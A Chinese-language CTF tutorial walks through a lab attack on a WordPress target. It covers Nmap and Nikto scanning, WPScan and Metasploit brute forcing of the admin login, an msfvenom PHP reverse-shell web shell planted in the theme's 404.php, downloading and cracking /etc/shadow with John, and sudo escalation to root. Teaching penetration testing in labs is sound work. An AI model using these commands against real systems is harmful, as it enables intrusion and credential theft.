# CTF夺旗赛教程：P17：19.WEB安全暴力破解 🎯

在本节课中，我们将学习WEB安全中的暴力破解技术。我们将通过对目标Web应用程序的用户名和密码进行暴力破解，获取有效凭据并登录系统，最终获得系统Shell，提升权限至root，从而取得目标Flag。

## 概述
暴力破解是一种通过尝试所有可能性来获取正确结果的攻击方法。其核心思想是枚举法，即根据已知条件确定答案的可能范围，并逐一验证所有情况，直到找到符合全部条件的解。

## 暴力破解的基本思想
暴力破解可以用**枚举法**的基本思想来概括。枚举法的基本思想是根据题目的部分条件确定答案的大致范围，并在此范围内对所有可能的情况逐一验证，直到全部情况验证完毕。若某个情况验证符合题目的全部条件，则为本问题的一个解。若全部情况验证后都不符合题目的全部条件，则本题无解。枚举法是暴力破解的基本思想。

在进行Web暴力破解时，我们尝试所有可能性以获取正确结果。如果未能获取结果，则可以扩大破解范围，直至取得所需的具体值。

## 实验环境搭建 🖥️
上一节我们介绍了暴力破解的基本概念，本节中我们来看看具体的实验环境。

*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：Ubuntu Linux，IP地址为 `192.168.253.20`。

我们的目标是获取靶机上的Flag值，并在过程中取得靶机的root权限。

## 靶机信息探测 🔍
我们目前只知道靶机的IP地址，需要探测其开放的服务及版本信息。

以下是使用Nmap进行服务探测的命令：
```bash
nmap -sV 192.168.253.20
```
此命令将对靶机IP地址进行服务版本探测，结果将返回到标准输出中。

除了服务信息，我们还可以使用Nmap探测靶机的全部信息，包括路由和操作系统信息。



以下是使用Nmap进行深度探测的命令：
```bash
nmap -T4 -A -v 192.168.253.20
```
*   `-T4`：使用Nmap最大线程数进行快速扫描。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出。



探测结果显示靶机开放了80端口，运行着HTTP服务。因此，我们需要进一步探索该HTTP服务下的敏感信息。

## Web服务敏感信息探测 🌐
我们已经探测到靶机开放了HTTP服务，接下来需要使用工具探测该服务下的敏感目录和文件。

以下是使用Nikto进行Web敏感信息探测的命令：
```bash
nikto -host http://192.168.253.20
```
如果端口不是80，则需要在IP后加上端口号，例如 `http://192.168.253.20:8080`。

Nikto扫描返回了大量信息，包括Apache版本、操作系统类型，并发现了一个名为 `/secret/` 的敏感目录。





## 访问与识别Web应用 🕵️
根据扫描结果，我们通过浏览器访问靶机的IP地址，并尝试访问发现的 `/secret/` 目录。

访问后发现这是一个隐藏的WordPress站点。我们尝试点击登录，但遇到了链接失效的问题。通过检查页面源代码，发现登录链接指向一个域名而非IP地址。

解决方法是在本地Hosts文件中将该域名解析到靶机IP地址。

以下是编辑Hosts文件的命令：
```bash
gedit /etc/hosts
```
在文件中添加以下行：
```
192.168.253.20    sportquest.com
```
保存后刷新浏览器，即可正常访问WordPress登录页面。

## 用户名枚举与暴力破解 🔑
现在我们可以访问WordPress登录页面，下一步是尝试破解登录凭据。首先，我们需要枚举可能存在的用户名。

以下是使用WPScan枚举WordPress用户名的命令：
```bash
wpscan --url http://sportquest.com/secret/ --enumerate u
```
扫描结果显示存在用户 `admin`。

接下来，我们使用Metasploit框架对 `admin` 用户进行密码暴力破解。

1.  启动Metasploit：
    ```bash
    msfconsole
    ```
2.  使用WordPress登录扫描模块：
    ```bash
    use auxiliary/scanner/http/wordpress_login_enum
    ```
3.  设置模块参数：
    ```bash
    set RHOSTS 192.168.253.20
    set USERNAME admin
    set PASS_FILE /usr/share/wordlists/dirb/common.txt
    set TARGETURI /secret/
    ```
4.  运行模块开始破解：
    ```bash
    run
    ```
破解成功后，显示用户 `admin` 的密码为 `admin`。

## 登录后台与上传WebShell 🐚
使用得到的凭据 (`admin/admin`) 成功登录WordPress后台。

我们的目标是通过后台获取系统Shell。为此，我们需要制作一个PHP的WebShell并上传到网站。

以下是使用Msfvenom生成PHP反向Shell的命令：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```
将生成的PHP代码复制。在WordPress后台，编辑当前主题的 `404.php` 模板文件，将代码粘贴进去并保存更新。





## 获取反向Shell与权限提升 ⬆️
在攻击机上启动Metasploit监听，等待靶机连接。









1.  使用监听模块：
    ```bash
    use exploit/multi/handler
    set PAYLOAD php/meterpreter/reverse_tcp
    set LHOST 192.168.253.12
    run
    ```
2.  在浏览器中访问触发WebShell的URL（例如 `http://sportquest.com/secret/wp-content/themes/twentyseventeen/404.php`）。

监听端成功收到来自靶机的Meterpreter Shell。我们首先查看当前用户权限，发现是 `www-data` 用户，并非root。





为了提权，我们需要获取系统上的用户密码哈希值。

在Meterpreter会话中执行以下命令：
```bash
download /etc/passwd
download /etc/shadow
```
将下载的文件合并，并使用John the Ripper进行破解：
```bash
unshadow passwd shadow > crack.db
john crack.db
```
破解出一个用户 `marinspike` 及其密码。







## 权限提升与获取Flag 🏁
现在我们利用破解出的凭据进行提权。

1.  在Meterpreter会话中切换到交互式Shell：
    ```bash
    shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
2.  切换到 `marinspike` 用户：
    ```bash
    su - marinspike
    # 输入密码
    ```
3.  尝试提升到root权限。发现该用户可能具有sudo权限：
    ```bash
    sudo -l
    sudo /bin/bash
    # 输入密码
    ```
成功获得root权限后，最后一步就是寻找Flag。通常Flag位于根目录下。





执行以下命令获取Flag：
```bash
cd /root
ls
cat flag
```



## 总结 📝
本节课我们一起学习了WEB安全中暴力破解的完整流程。





1.  **信息收集**：使用Nmap和Nikto探测目标服务和敏感信息。
2.  **应用识别**：识别出WordPress应用并解决域名解析问题。
3.  **凭据破解**：使用WPScan枚举用户名，结合Metasploit进行密码暴力破解。
4.  **获取访问权限**：利用破解的凭据登录后台。
5.  **建立立足点**：通过编辑主题文件上传WebShell，获取反向连接。
6.  **权限提升**：下载系统密码文件，使用John破解哈希，利用普通用户权限提升至root。
7.  **达成目标**：在root目录下找到并读取Flag。



核心要点在于：对于WordPress的渗透，可以利用其后台编辑功能上传WebShell；在获得初始Shell后，通过破解系统用户密码哈希来寻找提权路径。整个流程体现了从外部信息收集到最终获取最高权限的完整攻击链。